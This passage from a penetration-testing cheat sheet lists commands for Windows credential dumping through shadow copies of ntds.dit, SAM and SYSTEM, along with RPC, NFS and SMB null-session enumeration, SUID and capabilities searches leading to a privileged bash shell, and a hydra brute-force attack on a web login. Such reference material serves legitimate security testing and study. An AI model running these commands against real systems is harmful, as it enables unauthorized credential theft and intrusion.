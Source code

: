 		wmic service get Name,PathName,State | findstr "Running" | findstr "Program"

	Create shadow copy to access SAM, NTDS.DIT and SYSTEM files:

		vssadmin create shadow /for=c:

		copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit C:\ntds.dit

		copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\system

		copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\sam


---------------------------------------------------------------------------------------------------


## Useful commands for Enumeration:

	RPC:	

		rpcinfo 172.16.1.1

		rpcclient -U "" -N 172.16.1.1


	NFS:
		showmount -e 172.16.1.1

		mount -t nfs -o nfsvers=2 172.16.1.195:/opt/utils /tmp/nfs

	SMB:

		smbclient -L \\172.16.1.1 -N 

		smbclient -L \\172.16.1.1 -N --option='client min protocol=NT1'

		smbclient 172.16.1.1//IPC$ 

		smbclient -L \\172.16.1.1 -U "administrador"
		
	LINUX SUID/GUID:

		find / -perm /4000 2>/dev/null
		
		find / -perm /2000 2>/dev/null
		
		./bin/bash -p

	LINUX Capabilities:

		getcap -r / 2>/dev/null		

---------------------------------------------------------------------------------------------------

## Useful general commands on Linux systems:



	Brute force HTTP Example:

		hydra -F -V -l userName -P /usr/share/wordlists/rockyou.txt 172.16.1.158 http-post-form "/otrs/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=240&User=^USER^&Password=^PASS^:incorrectly."
